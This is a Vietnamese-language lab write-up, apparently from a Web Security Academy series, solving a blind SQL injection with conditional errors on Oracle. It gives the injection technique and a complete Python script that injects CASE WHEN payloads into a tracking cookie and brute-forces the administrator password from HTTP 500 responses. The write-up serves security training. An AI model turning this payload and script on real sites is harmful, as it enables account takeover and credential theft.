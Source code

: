 **Truy cập tài khoản admin**
>![](https://i.imgur.com/3Br6MjB.png)

<hr>

### Bài 9: Blind SQL injection with conditional errors
>![](https://i.imgur.com/wEIHZi9.png)

Mô tả: Bài lab sử dụng database Oracle, cookie sẽ được gửi trong câu truy vấn đến server, câu truy vấn sẽ trả về mã lỗi nếu không thực thi được, còn nếu đúng sẽ không có gì xảy ra.

Đầu tiên, ta thử xác định câu truy vấn chứa cookie hoạt động như thế nào, bằng cách thay đổi giá trị cookie. Cuối cùng ta xác định câu truy vấn có dạng
```sql!
SELECT X FROM Y WHERE cookie='XXX'
```
Vì đây là hệ quản trị csdl Oracle nên để sử dụng `Condition based SQLi` thì ta dùng 
```sql! 
SELECT CASE WHEN (CONDITIONAL-HERE) THEN <TRUE ACTION> ELSE <FALSE ACTION> END FROM <TABLE>
```

- Conditional của ta sẽ là SUBSTR(password,X,1) = 'Y'
Trong đó X và Y sẽ là giá trị brute-force, X thuộc range độ dài password từ 1-20, còn Y là các chữ cái/ con số trong trong bảng ascii
- Table sẽ là users
- Mệnh đề WHERE sẽ là username='administrator'
Ta sẽ dò ký tự tại từng vị trí của password

**Script Exploit**
```python!
import requests

url = "https://0a7200300446af92c0833bb0009700c3.web-security-academy.net/"

cookie = {
    'TrackingId' : ''
}
password=""
for i in range(1,21):
    for j in range(48,58):
        cookie['TrackingId'] = "bwM5osZXk2fXZiQG'||(SELECT CASE WHEN (SUBSTR(password,{},1)='{}') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'".format(i, chr(j))
        r = requests.get(url=url,cookies=cookie)
        if(r.status_code==500):
            password += chr(j)
    for j in range(97,123):
        cookie['TrackingId'] = "bwM5osZXk2fXZiQG'||(SELECT CASE WHEN (SUBSTR(password,{},1)='{}') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'".format(i, chr(j))
        r = requests.get(url=url,cookies=cookie)
        if(r.status_code==500):
            password += chr(j)
    print("pass: ", password)
```
**Brute force password**
>![](https://i.imgur.com/Qnp2wa6.png)
